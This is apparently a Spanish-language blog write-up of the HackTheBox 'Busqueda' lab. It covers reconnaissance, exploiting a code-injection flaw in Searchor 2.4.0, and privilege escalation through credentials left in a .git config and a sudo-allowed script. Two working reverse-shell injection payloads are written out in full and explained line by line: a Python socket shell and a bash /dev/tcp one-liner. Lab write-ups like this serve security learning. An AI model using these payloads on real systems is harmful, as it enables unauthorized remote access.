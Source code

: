 ```yaml
---
title: Busqueda
date: '2023-08-12'
lastmod: '2023-08-05'
tags:
  ['labs', 'HackTheBox', 'Code Injection', 'Harcoded Credentials', 'RCE', 'Searchor 2.4.0', 'Flask']
draft: false
summary: 'Busqueda es una maquina sencilla en la cual debemos explotar la vulnerabilidad de Searchor 2.4.0 para una vez dentro ingeniarnosla y escalar privilegios'
images: ['/static/images/htb/busqueda/busqueda.png']
---
```


![Portada](/static/images/htb/busqueda/busqueda.png)

<TOCInline toc={props.toc} exclude="Introduccion" />

## Reconocimiento

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.11.208 con el comando ping.

```js
  ping -c 4 10.10.11.208
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/busqueda/ping.png)

### Nmap

```js
  sudo nmap -sV -sS --min-rate 5000 10.10.11.208 -O
```

![Nmap](/static/images/htb/busqueda/nmap.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 8.9p1       |
| **_80/tcp_**     | http     | Apache httpd 2.4.52 |

## Enumeracion

### Puerto 80

Nos dirigimos a la web page y nos topamos con Searcher.
![web](/static/images/htb/busqueda/web1.png)
Bajamos y nos encontramos con un formulario e informacion acerca de la aplicacion. Vemos que
esta utilisando [Flask](https://flask.palletsprojects.com/en/2.3.x/) y [Searchor 2.4.0](https://pypi.org/project/searchor/)
![web](/static/images/htb/busqueda/web2.png)

Realizando una busqueda en Google sobre Searchor version 2.4.0 nos encontramos con que es vulnerable a [ejecucion de codigo](https://security.snyk.io/package/pip/searchor/2.4.0).
Encontramos dos repositorios de PoC en los cuales apoyarnos para realizar la explotacion.
Vamos a hacer la demostracion de dos maneras distinas pero que nos van a conducir al mismo resultado.

### Manera 1

Abrimos Burpsuite y activamos Foxyproxy para capturar todas las solicitudes que realizemos.
Ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/web4.png)

Damos click en el boton Search.
![web](/static/images/htb/busqueda/web3.png)

En Burpsuite, capturamos la peticion y la mandamos al repeater.
![web](/static/images/htb/busqueda/web5.png)

Una vez alli, en el campo query, colocamos la siguiente linea de codigo:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('TU_IP',PUERTO));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Esta línea de código es un ejemplo de un shell reverso en Python, que se utiliza comúnmente en pruebas de penetración y actividades maliciosas para obtener acceso remoto a un sistema. Vamos a desglosar lo que hace:

`import socket,subprocess,os`: Importa los módulos necesarios. _socket_ para la comunicación de red, _subprocess_ para ejecutar comandos y _os_ para interactuar con el sistema operativo.

`s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`: Crea un nuevo objeto de socket para la comunicación _TCP/IP_.

`s.connect(('TU_IP',PUERTO))`: Intenta conectar el socket al IP y puerto especificados. Nota: '_TU_IP_' y '_PUERTO_' son marcadores de posición y deben ser reemplazados por una dirección IP y un puerto válidos respectivamente.

`os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);`: Estas tres líneas redirigen la entrada estándar (0), la salida estándar (1) y la salida de error estándar (2) del proceso al socket. Esto significa que cualquier entrada o salida del proceso se enviará a través del socket, permitiendo la interacción remota.

`p=subprocess.call(['/bin/sh','-i'])`: Ejecuta una shell (_/bin/sh_) con una opción _-i_ que indica que se debe ejecutar en modo interactivo. Esto permite que el atacante ejecute comandos en el sistema comprometido.

Damos click derecho sobre la linea de codigo y la URLencodeamos. Hacemos los cambios pertinentes, colocando nuestra IP y el puerto que tengamos levantado en escucha. Enviamos y recibiremos una shell en donde teniamos nuestro netcat en escucha.
![web](/static/images/htb/busqueda/web6.png)

### Manera 2

De la manera 2 tambien ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/altweb.png)
Pero en este caso, no interceptamos la solicitud, directamente
colocamos la reverse shell en el campo del formulario y la enviamos.

```python
'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```

Esta línea de código es otra variante de un shell reverso, pero esta vez utilizando una combinación de Python y Bash para obtener acceso remoto a un sistema. Desglosemos lo que hace:

`__import__('os')`: Esta es una forma alternativa en Python para importar un módulo, en este caso, el módulo os.

`.system(...)`: Es una función del módulo os que se utiliza para ejecutar comandos del sistema operativo desde un script de Python.

`'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"'`: Este es el comando que se ejecuta. Desglosemos este comando Bash:

`bash -c`: Ejecuta el comando Bash especificado en la cadena que sigue.

`bash -i`: Inicia una nueva instancia de Bash en modo interactivo.

`& /dev/tcp/10.0.0.1/4444`: Redirige la salida estándar de la shell al socket TCP en la dirección IP 10.0.0.1 y el puerto 4444. Bash tiene una característica poco conocida que permite crear conexiones de red utilizando /dev/tcp/HOST/PORT.

`0>&1`: Redirige la entrada estándar (0) al mismo lugar que la salida estándar (1), lo que significa que la entrada y la salida de la shell se enviarán a través de la conexión TCP.

![web](/static/images/htb/busqueda/altweb2.png)

Y recibimos la shell.
![web](/static/images/htb/busqueda/altweb3.png)

## Escalada de privilegios

Ya dentro, vemos que somos el usuario svc. Donde estamos hay un directorio .git.
![web](/static/images/htb/busqueda/web7.png)

En el archivo config vemos unas credenciales, volvemos al puerto 22 para probar.
![web](/static/images/htb/busqueda/web8.png)

Efectivamente, las credenciales son validas.
![web](/static/images/htb/busqueda/ssh.png)

Ejecutamos el comando `sudo -l`. El comando sudo -l se utiliza en sistemas basados en Unix y Linux para mostrar los privilegios de ejecución específicos que tiene un usuario en relación con los comandos que pueden ejecutar utilizando el comando sudo.

El comando sudo permite a los usuarios ejecutar comandos con los privilegios de superusuario (también conocido como "root"), lo que les brinda acceso a operaciones y configuraciones que normalmente requerirían permisos administrativos. Sin embargo, no todos los usuarios pueden ejecutar cualquier comando con sudo. El archivo de configuración sudoers determina qué comandos y acciones pueden ejecutar los usuarios mediante sudo.

Al usar sudo -l, un usuario puede verificar los comandos y las operaciones específicas que se les permite ejecutar con sudo. Esto es útil para comprender rápidamente el alcance de los privilegios que un usuario tiene sin necesidad de intentar ejecutar comandos y recibir mensajes de error si no se les permite.
![web](/static/images/htb/busqueda/ssh1.png)

Podemos ejecutar comandos como el usuario con altos privilegios. Vemos que podemos ejecutar el script full-checkup.
Lo que debemos de hacer es crear un archivo con el mismo nombre y mandar una shell con privilegios de root a nuestra maquina atacante
![web](/static/images/htb/busqueda/ssh2.png)

En nuestra maquina escribimos un [script de python](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) que nos dara una reverse shell.
![web](/static/images/htb/busqueda/ssh3.png)

Luego, levantamos un servidor con python para poder transferirlo a la maquina victima.
![web](/static/images/htb/busqueda/ssh4.png)

Antes de volver a la maquina victima, abrimos con nc el puerto que pusimos en el script de python para que
este en escucha. Le damos permisos de ejecucion y lo ejecutamos.
![web](/static/images/htb/busqueda/ssh5.png)

En nuestra maquina atacante recibimos una shell con maximos privilegios. Consiguiendo asi la flag root.txt .
![web](/static/images/htb/busqueda/ssh7.png)

`URLs de utilidad:`

- [Python eval code execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/)

- [Python privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)
